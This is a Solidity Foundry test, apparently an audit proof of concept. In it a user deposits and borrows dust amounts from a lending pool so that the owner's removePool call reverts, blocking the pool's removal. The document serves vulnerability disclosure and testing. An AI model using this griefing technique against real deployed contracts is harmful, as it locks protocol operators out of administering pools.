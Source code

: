 ```solidity
        FixedPriceOracle asset1Oracle = new FixedPriceOracle(1e18);
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset1), address(asset1Oracle));

        vm.prank(protocolOwner);
        asset1.mint(address(this), initialDepositAmt);
        asset1.approve(address(superPoolFactory), initialDepositAmt);

        superPool = SuperPool(
            superPoolFactory.deploySuperPool(
                poolOwner, address(asset1), feeTo, 0.01 ether, 1_000_000 ether, initialDepositAmt, "test", "test"
            )
        );

        vm.startPrank(poolOwner);
        riskEngine.requestLtvUpdate(linearRatePool, address(asset2), 0.75e18);
        riskEngine.acceptLtvUpdate(linearRatePool, address(asset2));
        vm.stopPrank();
    }

    function testDosRemovePool() public {
        positionManager = protocol.positionManager();

        vm.startPrank(poolOwner);
        superPool.addPool(linearRatePool, 50 ether);
        vm.stopPrank();

        vm.startPrank(user2);
        asset1.mint(user2, 2);
        asset1.approve(address(superPool), 2);
        superPool.deposit(2, user2);

        asset2.mint(user2, 2);
        asset2.approve(address(positionManager), 2);

        // Make a new position
        (address position, Action memory _newPosition) = newPosition(user2, "test");
        positionManager.process(position, _newPosition);

        Action memory addNewCollateral2 = addToken(address(asset2));
        Action memory depositCollateral2 = deposit(address(asset2), 2);
        Action memory borrowAct = borrow(linearRatePool, 1);

        Action[] memory actions = new Action[](3);
        actions[0] = addNewCollateral2;
        actions[1] = depositCollateral2;
        actions[2] = borrowAct;

        positionManager.processBatch(position, actions);
        vm.stopPrank();

        vm.startPrank(poolOwner);
        vm.expectRevert(abi.encodeWithSelector(Pool.Pool_InsufficientWithdrawLiquidity.selector, linearRatePool, 1, 2));
        superPool.removePool(linearRatePool, true);
        vm.stopPrank();
    }
}
```
